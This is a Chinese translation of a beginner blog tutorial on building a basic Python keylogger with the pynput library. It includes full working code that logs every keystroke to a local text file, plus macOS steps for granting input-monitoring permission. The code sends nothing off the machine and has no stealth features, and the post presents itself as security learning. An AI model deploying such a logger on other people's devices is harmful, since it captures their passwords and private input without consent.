

# Python 键盘记录器教程

> 原文：<https://medium.com/analytics-vidhya/python-keylogger-tutorial-ef178d02f24a?source=collection_archive---------1----------------------->


在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上由 [Courtney Corlew](https://unsplash.com/@courtneycorlew?utm_source=medium&utm_medium=referral) 拍摄的照片

**嘿！怎么了？**

希望你一切都好。在本文中，您将学习如何用 Python 编写一个基本的键盘记录程序。

# 什么是键盘记录器？

键盘记录器是一种监控软件，用于记录用户的击键操作。最古老的网络威胁形式之一，这些击键记录者记录你在网站或应用程序中键入的信息，并将其发送回第三方！

# 辅导的

为了创建一个键盘记录器，我们将使用 **pynput** 模块。由于它不是 python 的标准库，您可能需要安装它。

```
pip install pynput
```

现在导入所需的包和方法。为了监视键盘，我们将使用 pynput.keyboard 模块的 listener 方法。

```
from pynput.keyboard import Listener
```

然后我们创建函数 log_keystroke()，该函数创建按键的定义，将按键作为参数，并将其存储在一个文本文件中。

但是我们首先将密钥转换成一个字符串，并删除所有的单引号，以便我们更容易阅读日志文件。

此外，当使用 shift 键时，我们会遇到“Key.space”和“Key.enter ”,而不是实际的空格和自动下一行 shift 和“Key.shift_r”。我们也会事先处理好。

```
def log_keystroke(key):
    key = str(key).replace("'", "")

    if key == 'Key.space':
        key = ' '
    if key == 'Key.shift_r':
        key = ''
    if key == "Key.enter":
        key = '\n'

    with open("log.txt", 'a') as f:
        f.write(key)
```

我们要做的最后一件事是设置一个 Listener 实例，并在其中定义 log _ keystroke 方法，然后将该实例加入主线程。

```
with Listener(on_press=log_keystroke) as l:
    l.join()
```

通过组合上述步骤，我们可以组合出完整的程序:

```
from pynput.keyboard import Listener

def log_keystroke(key):
    key = str(key).replace("'", "")

    if key == 'Key.space':
        key = ' '
    if key == 'Key.shift_r':
        key = ''
    if key == "Key.enter":
        key = '\n'

    with open("log.txt", 'a') as f:
        f.write(key)

with Listener(on_press=log_keystroke) as l:
    l.join()
```

为了测试，让程序在后台运行，打开谷歌搜索一些东西。现在，打开你的 log.txt 文件，瞧，你可以看到你的每一个击键记录和存储在文件中。

# MAC 的权限

对于 Windows 来说，这个程序应该非常好用。但如果你是 Mac 用户——进入“设置”>“安全与隐私”>“隐私”>“输入监控”,勾选你正在使用的终端或 IDE 前面的复选框。



感谢你阅读我的第一篇博文，希望你能学到一些新东西。更多关于网络安全和道德黑客的文章和文章即将发表。

回头见！

> 支持我[https://www.buymeacoffee.com/djrobin17](https://www.buymeacoffee.com/djrobin17)